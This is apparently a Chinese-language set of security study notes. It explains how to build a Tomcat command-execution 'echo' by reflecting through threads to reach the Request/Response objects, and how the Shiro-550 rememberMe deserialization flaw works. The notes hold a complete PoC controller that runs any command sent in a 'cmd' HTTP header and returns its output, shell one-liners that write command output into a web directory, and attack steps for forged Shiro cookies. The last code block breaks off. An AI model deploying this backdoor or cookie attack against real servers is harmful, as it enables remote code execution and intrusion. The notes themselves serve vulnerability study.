- 起一个SpringBoot调试一下看看，在调用链中发现继承Http11Processor的AbstractProcessor中有Request以及Response的Field，而且这两个Field都是final类型的，也就是说其在赋值之后，对于对象的引用是不会改变的，**那么我们只要能够获取到这个Http11Processor就肯定可以拿到Request和Response**。

-  idea使用技巧里面有调试tomcat的方法。
- 我们下载好springboot内嵌的tomcat的源代码之后，全局搜索Request对象
    - 


- 再看看Tomcat中哪个类会存储Request以及Response。

- 发现AbstractProcessor抽象类中有Request以及Response的Field，而且这两个Field都是final类型的，也就是说其在赋值之后，对于对象的引用是不会改变的

- 然后再找找谁实现了这个抽象类

    - 发现`Http11Processor`实现了这个抽象类
    - 这时候已经有了request，response，接下来往前寻找有没有哪里存储了这个Processor？或者是哪里对于Processor的Request等信息进行了存储？

- 查找用法，发现AbstractHttp11Protocol存储了Http11Processor

    - ```java
            protected Processor createProcessor() {
                Http11Processor processor = new Http11Processor(this, adapter);
                return processor;
            }
        ```

- 继续查找用法，`AbstractProtocol$ConnectionHandler#process`

    - ```java
        processor = getProtocol().createProcessor();
        register(processor);
        ```

- 发现这个processor被注册了。

    - `AbstractProtocal#register`

    - ```java
        protected void register(Processor processor) {
            if (getProtocol().getDomain() != null) {
                synchronized (this) {
                    try {
                        long count = registerCount.incrementAndGet();
                        RequestInfo rp =
                            processor.getRequest().getRequestProcessor();
                        rp.setGlobalProcessor(global);
                        ObjectName rpName = new ObjectName(
                            getProtocol().getDomain() +
                            ":type=RequestProcessor,worker="
                            + getProtocol().getName() +
                            ",name=" + getProtocol().getProtocolName() +
                            "Request" + count);
                        if (getLog().isDebugEnabled()) {
                            getLog().debug("Register [" + processor + "] as [" + rpName + "]");
                        }
                        Registry.getRegistry(null, null).registerComponent(rp,
                                                                           rpName, null);
                        rp.setRpName(rpName);
                    } catch (Exception e) {
                        getLog().warn(sm.getString("abstractProtocol.processorRegisterError"), e);
                    }
                }
            }
        }
        ```

        ```java
        rp.setGlobalProcessor(global);
        ```

    - 查看global变量

        - ```java
            private final RequestGroupInfo global = new RequestGroupInfo();
            ```

        - 其中这个RequestGroupInfo类型的核心就是一个存储所有RequestInfo的List。

            - ```java
                public class RequestGroupInfo extends BaseModelMBean {
                    private final List<RequestInfo> processors = new ArrayList<>();
                    private long deadMaxTime = 0;
                ```

    - 总结：调用链中的AbstractProtocol的内部类ConnectionHandler中在处理的时候就将当前的Processor的信息存储在了global中。

    - 有个问题，这个process是我们一次http请求生成的，那么服务器有很多个请求，怎么判断这个process是我们的。

- 下个断点调试一下

    - 

    - 随便访问一个controller接口
    - 

- 出来调用链了，那我们知道了response和requst是怎么初始化的。

所以整体的思路下来我们需要获取`AbstractProtocol$ConnectionHandler` -> 获取global变量 ->RequestInfo->Request-->Response。

###### 寻找`AbstractProtocol$ConnectionHandler`

- NioEndpoint对象继承抽象类`AbstractJsseEndpoint`继承抽象类`AbstractEndpoint`

    - 而抽象类`AbstractEndpoint`有个接口`Handler`，这个`Handler`的实现类是`AbstractProtocol$ConnectionsHandler`

    - ```java
        public static interface Handler<S> {
        
                /**
                 * Different types of socket states to react upon.
                 */
                public enum SocketState {
                    // TODO Add a new state to the AsyncStateMachine and remove
                    //      ASYNC_END (if possible)
                    OPEN, CLOSED, LONG, ASYNC_END, SENDFILE, UPGRADING, UPGRADED, ASYNC_IO, SUSPENDED
        }
        
            
        public Handler<S> getHandler() { return handler; }
        
        //这里设置handler
        public void setHandler(Handler<S> handler ) { this.handler = handler; }
        ```

    - 我们看看查看哪里`setHandler`把`AbstractProtocol$ConnectionsHandler`传入了，同样在这里下个断点

        - 发现是抽象类`AbstractHttp11Protocol`，同时我们发现了的确是把AbstractProtocol$ConnectionsHandler传入了

            - 

        - 而且使用了endpoint对象来初始化AbstractProtocol

            - ```java
                public abstract class AbstractHttp11Protocol<S> extends AbstractProtocol<S> {
                
                    protected static final StringManager sm =
                            StringManager.getManager(AbstractHttp11Protocol.class);
                
                    private final CompressionConfig compressionConfig = new CompressionConfig();
                
                
                    public AbstractHttp11Protocol(AbstractEndpoint<S,?> endpoint) {
                        super(endpoint);
                        setConnectionTimeout(Constants.DEFAULT_CONNECTION_TIMEOUT);
                        ConnectionHandler<S> cHandler = new ConnectionHandler<>(this);
                        setHandler(cHandler);
                        getEndpoint().setHandler(cHandler);
                    }
                ```

        - 看看这个getEndpoint()返回了什么对象。返回的是NioEndpoint对象

            - ```java
                protected AbstractEndpoint<S,?> getEndpoint() {
                	return super.getEndpoint();
                }
                ```

    - 所以`NioEndpoint`对象中有`AbstractProtocol$ConnectionHandler`对象。上面分析是对象的初始化，我们想要知道初始化完成之后，`NioEndpoint`对象存放在哪。

- 那怎么找到`NioEndpoint`对象在哪呢？

    - `NioEndpoint$Poller`是`NioEndpoint`的一个内部类。找到这个对象就可以找到`NioEndpoint`对象

- 那怎么找到`NioEndpoint$Poller`对象在哪呢？

    - `NioEndpoint$Poller`是实现了Runnable接口。他被当作一个线程对象使用了。
    - 所以在Thread里面

###### 寻找`NioEndpoint$Poller`

看下整个流程

- 下个断点

- 

- 调试分析

    - 

    - 

**Thread**

- 每个Java应用程序都有一个执行Main()函数的默认主线程。**这个就是主线程**

- 应用程序也可以创建线程在后台运行。Java主要是通过Java.Lang.Thread类以及Java.lang.Runnable接口来实现线程机制的。**这边所有的都是其余线程**。

- 在Java的反射中，get方法是可以获取该字段对应的对象。

    - ```java
        // 获取当前线程组
        ThreadGroup group = Thread.currentThread().getThreadGroup();
        // 反射获取字段threads
        java.lang.reflect.Field f = group.getClass().getDeclaredField("threads");
        f.setAccessible(true);
        // f.get(group) 获取 threads 线程中数组对象
        Thread[] threads = (Thread[]) f.get(group);
        ```

    - Object obj = field.get(类实例对象); 

        - 当是调用类变量，类实例对象可以为null。
        - 否则传入对象，如果不传对象，该方法会抛出一个NullPointerException。如果传的对象没有该字段该方法会抛出一个IllegalArgumentException。
        - 这里的Object要写成对应的变量类型
        - 如果字段不是类和接口的实例就会报错。

线程处理:

- 下个断点，看看有哪些线程
    - 

- 获取线程名字，跳过不需要的线程。

    - ```java
         for(int i = 0; i < threads.length; i++) {
             	Thread t = threads[i];
             	if (t == null) continue;
             
                String str = t.getName();
                //http-nio-8090-BlockPoller continue  NoSuchField异常 文章里面有这个异常，但是我的springboot没有，所以我直接排除BlockPoller线程。
                if (str.contains("exec") || !str.contains("http")||str.contains("Acceptor")||str.contains("BlockPoller") ) {
                    continue;
                }
        ```

- **如何确定那些线程是需要的呢？**

    - http-nio-8080-Acceptor为请求接收器，其只接收请求，不会对请求做任务业务处理操作，所以默认为单个线程。

    - http-nio-8080-ClientPoller-0和http-nio-8080-ClientPoller-1为两个是作为轮询器或者转发器使用的，简单来说就是对获取到的`SocketWrapper`添加到一个线程池中进行处理，这种类型的线程数与CPU的核数有关。

    - http-nio-8080-exec-1到10是tomcat的一个线程池产生的默认的10线程，这10个线程是用来执行具体的servlet请求操作，线程的数目可以跟随请求说的变化而变化。

    - 以上3种类型的线程有点类似Reactor模式。Tomcat通过Connector中的Acceptor绑定8080端口并接收请求，然后通过Poller,Worker转交给`Http11Processor`解析出请求。ps: 8080均是指定端口

        - 

        - 

- 结合上面两张图和lucifaer大佬在文章Tomcat通用回显学习中所提交Processor对象，确定所需要的线程是`http-nio-xxxx-Poller`。

- 利用IDEA功能导出线程栈部分数据如下。不难分析这里出现了`Poller`对象，有`Poller`就会有`Processor`对象。

    - ```
        "http-nio-8090-ClientPoller@5462" daemon prio=5 tid=0x2d nid=NA runnable
          java.lang.Thread.State: RUNNABLE
              at sun.nio.ch.WindowsSelectorImpl$SubSelector.poll0(WindowsSelectorImpl.java:-1)
              at sun.nio.ch.WindowsSelectorImpl$SubSelector.poll(WindowsSelectorImpl.java:296)
              at sun.nio.ch.WindowsSelectorImpl$SubSelector.access$400(WindowsSelectorImpl.java:278)
              at sun.nio.ch.WindowsSelectorImpl.doSelect(WindowsSelectorImpl.java:159)
              at sun.nio.ch.SelectorImpl.lockAndDoSelect(SelectorImpl.java:86)
              - locked <0x1682> (a sun.nio.ch.WindowsSelectorImpl)
              - locked <0x168a> (a java.util.Collections$UnmodifiableSet)
              - locked <0x168b> (a sun.nio.ch.Util$2)
              at sun.nio.ch.SelectorImpl.select(SelectorImpl.java:97)
              at org.apache.tomcat.util.net.NioEndpoint$Poller.run(NioEndpoint.java:816)
              at java.lang.Thread.run(Thread.java:745)
        ```

**获取Processor对象**

- 进入线程`Poller`之后，反射获取其中`target`字段，该字段的类型是`Runnable`。

    - 

    - ```java
        //str = http-nio-8090-ClientPoller 进入下面 ps: i=14
        // java.lang.Thread
        f = t.getClass().getDeclaredField("target");
        f.setAccessible(true);
        // obj ->  NioEndpoint$Poller实例化对象
        Object obj = f.get(t);
        // NioEndpoint$Poller  implements Runnable
        if (!(obj instanceof Runnable)) {
        continue;
        ```

- `NioEndpoint$Poller`是实现了Runnable接口，同时他是一个匿名内部类。

- **通过匿名内部类（NioEndpoint\$Poller）获取持有的外部类对象（NioEndpoint），参考补充小知识this$0。**

    - `this$0`是指获取匿名内部类持有的外部类对象，大致意思如下，`ThirdInner`的外部`this$0`类对象是`Outer`。更多内容可以参考[获取Java匿名内部类持有的外部类对象](https://www.jianshu.com/p/9335c15c43cf)。

    - ```java
        public class Outer {//this$0
        
            public class FirstInner {//this$1
        
                public class SecondInner {//this$2
        
                    public class ThirdInner {
                    }
                }
            }
        }
        ```

- ```java
    // this$0 是NioEndpoint对象
    f = obj.getClass().getDeclaredField("this$0");
    f.setAccessible(true);

- 获取到NioEndpoint对象之后，向上获取`Handler`对象。 `NioEndpoint` extends `AbstractJsseEndpoint`<NioChannel, SocketChannel>。

- 然而在AbstractJsseEndpoint中是没有Handler字段对象的， 但在其extends `AbstractEndpoint`中是存在AbstractEndpoint$Handler字段。

    - ```java
        // f.get(obj) --> org.apche.tomcat.util.net.NioEndpoint 对象
        obj = f.get(obj);
        // NioEndpoint extends AbstractJsseEndpoint<NioChannel, SocketChannel> --> extends AbstractEndpoint$Handler
        //  AbstractEndpoint$Handler 是一个接口，在org.apche.coyote.AbstractProtocol$ConnectionsHandler实现
        try {
        f = obj.getClass().getDeclaredField("handler");
        } catch (NoSuchFieldException e) {
        f = obj.getClass().getSuperclass().getSuperclass().getDeclaredField("handler");
        }
        // obj -->  org.apche.coyote.AbstractProtocol$ConnectionsHandler
        f.setAccessible(true);
        obj = f.get(obj);
        ```

- 在`AbstractEndpoint$Handler`是一个接口，其实现类`AbstractProtocol$ConnectionsHandler`是所需要的Handler。ConnectionsHanddler中是包含`global`字段。

    - ```java
        // obj --> org.apche.coyote.AbstractProtocol$ConnectionsHandler
        try {
        f = obj.getClass().getSuperclass().getDeclaredField("global");
        } catch (NoSuchFieldException e) {
        // obj --> AbstractProtocol$ConnectionsHandler
        f = obj.getClass().getDeclaredField("global");
        }
        ```

- 获取到`RequestGroupInfo`对象，在`RequestGroupInfo`之中有包含`Processor`对象`list`。

    - ```java
        // obj --> org.apche.coyote.RequestGroupInfo
        f.setAccessible(true);
        obj = f.get(obj);
        f = obj.getClass().getDeclaredField("processors");
        f.setAccessible(true);
        // processors --> List<RequestInfo>
        java.util.List processors = (java.util.List) (f.get(obj));
        ```

- 获取到Processor对象之后，接着获取`Request`和`Response`

    - > 这里有个问题，一个http请求会有一个Processor对象，那么数据里面会有其他人的resp和req，那我们可以判断http头有没有cmd字段，有就处理这个req。

    - ```java
        for (int j = 0; j < processors.size(); ++j) {
                        Object processor = processors.get(j);
                        f = processor.getClass().getDeclaredField("req");
                        f.setAccessible(true);
                        // org.apche.coyote.Request
                        Object req = f.get(processor);
                        // org.apche.coyote.Response
                        Object resp = req.getClass().getMethod("getResponse", new Class[0]).invoke(req, new Object[0]);
                        // header cc: "cmd"
                        str = (String) req.getClass().getMethod("getHeader", new Class[]{String.class}).invoke(req, new Object[]{"CC"});
        ```

- 在resq的http头里面插入一个cmd字段当作rce的命令传入，然后写入到response中

    - ```java
                            try {
                                Class cls = Class.forName("org.apache.tomcat.util.buf.ByteChunk");
                                obj = cls.newInstance();
                                cls.getDeclaredMethod("setBytes", new Class[]{byte[].class, int.class, int.class}).invoke(obj, new Object[]{result, new Integer(0), new Integer(result.length)});
                                resp.getClass().getMethod("doWrite", new Class[]{cls}).invoke(resp, new Object[]{obj});
                            } catch (NoSuchMethodException | ClassNotFoundException var5) {
                                Class cls = Class.forName("java.nio.ByteBuffer");
                                obj = cls.getDeclaredMethod("wrap", new Class[]{byte[].class}).invoke(cls, new Object[]{result});
                                resp.getClass().getMethod("doWrite", new Class[]{cls}).invoke(resp, new Object[]{obj});
                            } catch (InvocationTargetException e) {
                                throw new RuntimeException(e);
                            } catch (InstantiationException e) {
                                throw new RuntimeException(e);
                            }
        ```

###### 完整的poc

```java
@Controller
public class HelloWorld {
    @RequestMapping("/tomcat")
    @ResponseBody
    public String test() throws IllegalAccessException, NoSuchFieldException, NoSuchMethodException, InvocationTargetException, IOException, ClassNotFoundException {
        // 获取当前线程组对象
        ThreadGroup group = Thread.currentThread().getThreadGroup();
        // 反射获取字段threads,保存了所有的线程对象
        java.lang.reflect.Field f = group.getClass().getDeclaredField("threads");
        f.setAccessible(true);
        // f.get(group) 获取 threads 线程中数组对象
        Thread[] threads = (Thread[]) f.get(group);
        boolean flag = false;

        //这么多线程，我们只需要http-nio-xxxx-Poller
        for (int i = 0; i < threads.length; i++) {
            try {
                //获得全部线程
                Thread t = threads[i];
                if (t == null) continue;
                String str = t.getName();

                //http-nio-xxxx-Poller
                if (str.contains("exec") || !str.contains("http") || str.contains("Acceptor") || str.contains("BlockPoller")) {
                    continue;
                }
                //t -> java.lang.Thread
                f = t.getClass().getDeclaredField("target");
                f.setAccessible(true);
                // obj ->  NioEndpoint$Poller实例化对象
                Object obj = f.get(t);

                // NioEndpoint$Poller  implements Runnable
                if (!(obj instanceof Runnable)) continue;
                // this$0 是NioEndpoint对象
                f = obj.getClass().getDeclaredField("this$0");
                f.setAccessible(true);
                //NioEndpoint对象
                obj = f.get(obj);

                // NioEndpoint extends AbstractJsseEndpoint<NioChannel, SocketChannel> --> extends AbstractEndpoint$Handler
                //  AbstractEndpoint$Handler 是一个接口，在org.apche.coyote.AbstractProtocol$ConnectionsHandler实现
                try {
                    f = obj.getClass().getDeclaredField("handler");
                } catch (NoSuchFieldException e) {
                    f = obj.getClass().getSuperclass().getSuperclass().getDeclaredField("handler");
                }
                // obj -->  org.apche.coyote.AbstractProtocol$ConnectionsHandler
                f.setAccessible(true);
                // obj --> org.apche.coyote.AbstractProtocol$ConnectionsHandler
                obj = f.get(obj);
                try {
                    f = obj.getClass().getSuperclass().getDeclaredField("global");
                } catch (NoSuchFieldException e) {
                    // obj --> AbstractProtocol$ConnectionsHandler
                    f = obj.getClass().getDeclaredField("global");
                }
                f.setAccessible(true);
                // obj --> org.apche.coyote.RequestGroupInfo
                obj = f.get(obj);
                f = obj.getClass().getDeclaredField("processors");
                f.setAccessible(true);
                // processors --> List<RequestInfo>
                java.util.List processors = (java.util.List) (f.get(obj));


                for (int j = 0; j < processors.size(); ++j) {
                    Object processor = processors.get(j);

                    f = processor.getClass().getDeclaredField("req");
                    f.setAccessible(true);
                    // org.apche.coyote.Request
                    Object req = f.get(processor);
                    // org.apche.coyote.Response
                    Object resp = req.getClass().getMethod("getResponse", new Class[0]).invoke(req, new Object[0]);


                    //在resq的http头里面插入一个cmd字段当作rce的命令传入，然后写入到response中
                    str = (String) req.getClass().getMethod("getHeader", new Class[]{String.class}).invoke(req, new Object[]{"cmd"});
                    if (str != null && !str.isEmpty()) {
                        resp.getClass().getMethod("setStatus", new Class[]{int.class}).invoke(resp, new Object[]{new Integer(200)});
                        String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", str} : new String[]{"/bin/sh", "-c", str};
                        byte[] result = (new java.util.Scanner((new ProcessBuilder(cmds)).start().getInputStream())).useDelimiter("\\A").next().getBytes();
                        try {
                            Class cls = Class.forName("org.apache.tomcat.util.buf.ByteChunk");
                            obj = cls.newInstance();
                            cls.getDeclaredMethod("setBytes", new Class[]{byte[].class, int.class, int.class}).invoke(obj, new Object[]{result, new Integer(0), new Integer(result.length)});
                            resp.getClass().getMethod("doWrite", new Class[]{cls}).invoke(resp, new Object[]{obj});
                        } catch (NoSuchMethodException var5) {
                            Class cls = Class.forName("java.nio.ByteBuffer");
                            obj = cls.getDeclaredMethod("wrap", new Class[]{byte[].class}).invoke(cls, new Object[]{result});
                            resp.getClass().getMethod("doWrite", new Class[]{cls}).invoke(resp, new Object[]{obj});
                        }
                        flag = true;
                    }
                    if (flag) break;
                }
                if (flag) break;
            } catch (Exception e) {
                continue;
            }
        }


        return "tomcat";
    }
}

```

结果：

- 同时response的原理不是覆盖写入，所以后面即使往页面写了东西，也不会覆盖掉命令执行的结果
- 


###### 一些疑问

- 我们可不可以下个断点，然后直接分析jvm生成了哪些对象，这些对象被哪些对象保存了，这样找resp对象就很方便了
    - eclipse有mat，idea有jprofiler。尝试使用jprofiler，但是没有找到断点下下载内存转储文件的方法。而resp的寻找需要在一次http请求里面。
    - 找到了，除了有⼤名鼎鼎的 [gadgetinspector](https://github.com/JackOfMostTrades/gadgetinspector)，还有 c0y1 师傅写的[ java-object-searcher] (https://github.com/c0ny1/java-object-searcher)，⼀款内存对象搜索⼯具，非常符合目前的需求。（来源 Koalr师傅）

##### Tomcat半通用回显

- [《Tomcat中一种半通用回显方法》](https://xz.aliyun.com/t/7348) 将执行命令的结果存入tomcat的response返回 shiro无法回显

##### weblogic回显

具体代码在 [《weblogic_2019_2725poc与回显构造》](https://xz.aliyun.com/t/5299) lufei师傅已经给出来了

##### 内存马

#### 写文件和dnslog

- 通过搜索特殊文件路径直接写入web可访问的目录，要熟悉常用中间件容器的目录结构，比如在我web目录有一个特殊的test.html

- linux用bash

    - ```bash
        // 进入test.html的根目录并执行id命令写入1.txt
        cd $(find -name "test.html" -type f -exec dirname {} \; | sed 1q) && echo `id` > 1.txt
        
        ```

- windows的powershell

    - ```java
        $file = Get-ChildItem -Path . -Filter test.html -recurse -ErrorAction SilentlyContinue;$f = -Join($file.DirectoryName,"/a.txt");echo 222 |Out-File $f
        
        ```

### 中间件反序列化漏洞：

#### shiro反序列化漏洞：

##### shiro介绍

- Shiro本身是⼀个轻便的权限验证库，它并不⼀定依赖于WEB，并且由于其可以兼容⼤多数中间件 （Tomcat、Spring...），所以被⼴泛使⽤，其产⽣了许多⾼危漏洞诸如反序列化、权限绕过等。

- 目前，使用 Apache Shiro 的人越来越多，因为它相 当简单，对比 Spring Security，可能没有 Spring Security 做的功能强大，但是在实际工作时 可能并不需要那么复杂的东西，所以使用小而简单的 Shiro 就足够了。
-  Shiro 三个核心组件 
    - Subject：即“当前操作用发户”。但是，在 Shiro 中，Subject 这一概念并不仅仅指人， 也可以是第三方进程、后台帐户（Daemon Account）或其他类似事物。它仅仅意味着“当前 跟软件交互的东西”。但考虑到大多数目的和用途，你可以把它认为是 Shiro 的“用户”概念。 Subject 代表了当前用户的安全操作，SecurityManager 则管理所有用户的安全操作。 
    - SecurityManager：它是 Shiro 框架的核心，典型的 Facade 模式，Shiro 通过 SecurityManager 来管理内部组件实例，并通过它来提供安全管理的各种服务。 
    - Realm 充当了 Shiro 与应用安全数据间的“桥梁”或者“连接器”。
        - 也就是说，当对用户执 行认证（登录）和授权（访问控制）验证时，Shiro 会从应用配置的 Realm 中查找用户及其 权限信息。 
        - 从这个意义上讲，Realm 实质上是一个安全相关的 DAO：它封装了数据源的连接细节， 并在需要时将相关数据提供给 Shiro。当配置 Shiro 时，你必须至少指定一个 Realm，用于 认证和（或）授权。
        - 配置多个 Realm 是可以的，但是至少需要一个。 Shiro 内置了可以连接大量安全数据源（又名目录）的 Realm，如 LDAP、关系数据库 （JDBC）、类似 INI 的文本配置资源以及属性文件等。如果缺省的 Realm 不能满足需求， 你还可以插入代表自定义数据源的自己的 Realm 实现。


##### **Shiro-550  (CVE-2016-4437 1.2.4)**

- **漏洞影响版本：Apache Shiro <= 1.2.4**
- shiro特征：
    - 在请求包的Cookie中为？remeberMe字段赋任意值
    - 返回包中存在set-Cookie：remeberMe=deleteMe
    - URL中有shiro字样
    - 有时候服务器不会主动返回remeberMe=deleteMe，直接发包即可

**环境搭建**

- https://github.com/phith0n/JavaThings/blob/master/shirodemo

- 项目依赖

    - ```
        shiro-core、shiro-web，这是shiro本身的依赖
        javax.servlet-api、jsp-api，这是JSP和Servlet的依赖，仅在编译阶段使用，因为Tomcat中自带这
        两个依赖
        slf4j-api、slf4j-simple，这是为了显示shiro中的报错信息添加的依赖
        commons-logging，这是shiro中用到的一个接口，不添加会爆
        java.lang.ClassNotFoundException: org.apache.commons.logging.LogFactory 错误
        commons-collections，为了演示反序列化漏洞，增加了commons-collections依赖
        ```

- 我们使用 mvn package 将项目打包成war包，放在Tomcat的webapps目录下。然后访问 http://localhost:8080/shirodemo/ ，会跳转到登录页面

- 然后输入正确的账号密码，root/secret，成功登录：

    - 

- 如果登录时选择了remember me的多选框，则登录成功后服务端会返回一个rememberMe的Cookie：

**漏洞原理**

- Shiro的原理比较简单：为了让浏览器或服务器重 启后用户不丢失登录状态，**Shiro支持将持久化信息序列化并加密后保存在Cookie的rememberMe字段中**，下次读取时进行解密再反序列化。但是在Shiro 1.2.4版本之前内置了一个默认且固定的加密 Key，导致攻击者可以伪造任意的rememberMe Cookie，进而触发反序列化漏洞。

- 

  

  - 所以知道了key就可以构造反序列化了注入了。**因为shiro的反序列化重写了一部分，所以一部分cc链没办法使用，但是还是有可以使用的cc链。**

- shiro源码分析

    - shiro核心源码在core依赖里面

        - 

        - shiro硬编码的key在`mgt/AbstractRememberMeManager下`
            - 

            - 

        - 思考一下在哪里加断点
            - Remember me的作用就是，一次登录，后面在有效期内免登录。

            - 那么登录后，每次访问login页面，都会对身份校验，解析Cookies中的RememberMe，所以只要找到解析Cookie的函数就可以。

    - 加密过程

        - 同样上面的类里面有个`onSuccessfulLogin`函数，应该是登录成功后调用，下断点。

            - ```java
                public void onSuccessfulLogin(Subject subject, AuthenticationToken token, AuthenticationInfo info) {
                        //always clear any previous identity:
                        forgetIdentity(subject);
                
                        //now save the new identity:
                        if (isRememberMe(token)) {
                            rememberIdentity(subject, token, info);
                        } else {
                            if (log.isDebugEnabled()) {
                                log.debug("AuthenticationToken did not indicate RememberMe is requested.  " +
                                        "RememberMe functionality will not be executed for corresponding account.");
                            }
                        }
                    }
                ```

        - 看一下函数，猜测是登陆成功之后先清除之前的Identity，然后创建新Identity（防止之前的认证信息被复用）

        - 进入rememberIdentity方法，先将身份信息转byte，再将它序列化。再加密，返回

            - ```java
                public void rememberIdentity(Subject subject, AuthenticationToken token, AuthenticationInfo authcInfo) {
                        PrincipalCollection principals = getIdentityToRemember(subject, authcInfo);
                        rememberIdentity(subject, principals);
                }
                
                protected void rememberIdentity(Subject subject, PrincipalCollection accountPrincipals) {
                        byte[] bytes = convertPrincipalsToBytes(accountPrincipals);
                        rememberSerializedIdentity(subject, bytes);
                }
                
                ```

            - ```java
                protected byte[] convertPrincipalsToBytes(PrincipalCollection principals) {
                        byte[] bytes = serialize(principals);
                        if (getCipherService() != null) {
                            bytes = encrypt(bytes);
                        }
                        return bytes;
                    }
                ```

        - 这里的加密是

            - ```java
                public ByteSource encrypt(byte[] plaintext, byte[] key) {
                        byte[] ivBytes = null;
                        boolean generate = isGenerateInitializationVectors(false);
                        if (generate) {
                            ivBytes = generateInitializationVector(false);
                            if (ivBytes == null || ivBytes.length == 0) {
                                throw new IllegalStateException("Initialization vector generation is enabled - generated vector" +
                                        "cannot be null or empty.");
                            }
                        }
                        return encrypt(plaintext, key, ivBytes, generate);
                    }
                ```

            - 使用javax.crypto.Cipher对象进行加密的，这里的mode是加密模式（这里的mode对应模式是AES的CBC模式），key就是shirokey，iv是向量，不同的iv生成的加密结果不同，解密时需要使用相同的iv才能解密

            - 看下iv的生成方式，，随机生成的

            - 那么shiro是怎么解密的呢

                - 看下解密的iv获取方式，直接取加密的序列化对象前16位做iv
                - 因为在加密时，iv会拼接在加密结果前面，所以加密后的内容前16位就是iv（iv作用就是可以使每次加密结果都不一样，不是用来解密的，所以可以直接明文，key才是用来解密的）

        - 再进入rememberSerializedIdentity方法，会将身份信息序列化，写入Cookie

            - ```java
                    protected void rememberSerializedIdentity(Subject subject, byte[] serialized) {
                
                        if (!WebUtils.isHttp(subject)) {
                            if (log.isDebugEnabled()) {
                                String msg = "Subject argument is not an HTTP-aware instance.  This is required to obtain a servlet " +
                                        "request and response in order to set the rememberMe cookie. Returning immediately and " +
                                        "ignoring rememberMe operation.";
                                log.debug(msg);
                            }
                            return;
                        }
                
                
                        HttpServletRequest request = WebUtils.getHttpRequest(subject);
                        HttpServletResponse response = WebUtils.getHttpResponse(subject);
                
                        //base 64 encode it and store as a cookie:
                        String base64 = Base64.encodeToString(serialized);
                
                        Cookie template = getCookie(); //the class attribute is really a template for the outgoing cookies
                        Cookie cookie = new SimpleCookie(template);
                        cookie.setValue(base64);
                        cookie.saveTo(request, response);
                    }
                ```

        - 以上就是生成RememberMe的过程，经历过了加密，那使用到RememberMe的时候一定会经历解密

    - 解密过程

        - 在encrypt方法所在类(AbstractRememberMeManager类)，发现了decrypt方法，加断点。
        - 调用栈如图
            - 

        - 查看之前的调用栈，发现从subjectContext中提取Identity（Identity应该包含了RememberMe的信息），然后对cookie进行解密。

            ```java
                public PrincipalCollection getRememberedPrincipals(SubjectContext subjectContext) {
                    PrincipalCollection principals = null;
                    try {
                        byte[] bytes = getRememberedSerializedIdentity(subjectContext);
                        //SHIRO-138 - only call convertBytesToPrincipals if bytes exist:
                        if (bytes != null && bytes.length > 0) {
                            principals = convertBytesToPrincipals(bytes, subjectContext);
                        }
                    } catch (RuntimeException re) {
                        principals = onRememberedPrincipalFailure(re, subjectContext);
                    }
            
                    return principals;
                }
            ```

        - 查看一下Identity提取了什么

            - ```java
                    protected byte[] getRememberedSerializedIdentity(SubjectContext subjectContext) {
                
                        if (!WebUtils.isHttp(subjectContext)) {
                            if (log.isDebugEnabled()) {
                                String msg = "SubjectContext argument is not an HTTP-aware instance.  This is required to obtain a " +
                                        "servlet request and response in order to retrieve the rememberMe cookie. Returning " +
                                        "immediately and ignoring rememberMe operation.";
                                log.debug(msg);
                            }
                            return null;
                        }
                
                        WebSubjectContext wsc = (WebSubjectContext) subjectContext;
                        if (isIdentityRemoved(wsc)) {
                            return null;
                        }
                
                        HttpServletRequest request = WebUtils.getHttpRequest(wsc);
                        HttpServletResponse response = WebUtils.getHttpResponse(wsc);
                
                        String base64 = getCookie().readValue(request, response);
                        // Browsers do not always remove cookies immediately (SHIRO-183)
                        // ignore cookies that are scheduled for removal
                        if (Cookie.DELETED_COOKIE_VALUE.equals(base64)) return null;
                
                        if (base64 != null) {
                            base64 = ensurePadding(base64);
                            if (log.isTraceEnabled()) {
                                log.trace("Acquired Base64 encoded identity [" + base64 + "]");
                            }
                            byte[] decoded = Base64.decode(base64);
                            if (log.isTraceEnabled()) {
                                log.trace("Base64 decoded byte array length: " + (decoded != null ? decoded.length : 0) + " bytes.");
                            }
                            return decoded;
                        } else {
                            //no cookie set - new site visitor?
                            return null;
                        }
                    }
                ```

        - 这里的base64正是burp传入的cookie，

        - 然后对cookie执行ensurePadding方法，然后base64解码，返回

            - ```
                if (base64 != null) {
                            base64 = ensurePadding(base64);
                            
                      		byte[] decoded = Base64.decode(base64);      
                ```

            - 看下ensurePadding方法，如图，是填充=的

                - ```java
                        private String ensurePadding(String base64) {
                            int length = base64.length();
                            if (length % 4 != 0) {
                                StringBuilder sb = new StringBuilder(base64);
                                for (int i = 0; i < length % 4; ++i) {
                                    sb.append('=');
                                }
                                base64 = sb.toString();
                            }
                            return base64;
                        }
                    ```

        - 回到getRememberedPrincipals方法，bytes就是返回的base64解码后的cookie。然后传入convertBytesToPrincipals方法。

            -  ```java
                     protected PrincipalCollection convertBytesToPrincipals(byte[] bytes, SubjectContext subjectContext) {
                         if (getCipherService() != null) {
                             bytes = decrypt(bytes);
                         }
                         return deserialize(bytes);
                     }
                 ```

        - 然后解密cookie

            - ```java
                    protected byte[] decrypt(byte[] encrypted) {
                        byte[] serialized = encrypted;
                        CipherService cipherService = getCipherService();
                        if (cipherService != null) {
                            ByteSource byteSource = cipherService.decrypt(encrypted, getDecryptionCipherKey());
                            serialized = byteSource.getBytes();
                        }
                        return serialized;
                    }
                ```

            - 首先通过CipherService对象，对RememberMe解密，这时候是传入默认key解密，然后返回byte数组

        - 然后反序列化

            - ```java
                protected PrincipalCollection deserialize(byte[] serializedIdentity) {
                	return getSerializer().deserialize(serializedIdentity);
                }
                
                
                ```

            - ```java
                    public T deserialize(byte[] serialized) throws SerializationException {
                        if (serialized == null) {
                            String msg = "argument cannot be null.";
                            throw new IllegalArgumentException(msg);
                        }
                        ByteArrayInputStream bais = new ByteArrayInputStream(serialized);
                        BufferedInputStream bis = new BufferedInputStream(bais);
                        try {
                            ObjectInputStream ois = new ClassResolvingObjectInputStream(bis);//这个方法shiro在里面重写了一个方法，导致我们后面的cc链会出现问题，后面会讲。
                            @SuppressWarnings({"unchecked"})
                            T deserialized = (T) ois.readObject();
                            ois.close();
                            return deserialized;
                        } catch (Exception e) {
                            String msg = "Unable to deserialze argument byte array.";
                            throw new SerializationException(msg, e);
                        }
                    }
                }
                ```

            - 

- 对此，我们攻击过程如下： 

    - 1. 使用以前学过的CommonsCollections利用链生成一个序列化Payload 
        2. 使用Shiro默认Key进行加密 
        3. 将密文作为rememberMe的Cookie发送给服务端

    - poc

        - ```java
            package cc;
            
            
            import org.apache.commons.collections.Transformer;
            import org.apache.commons.collections.functors.ChainedTransformer;
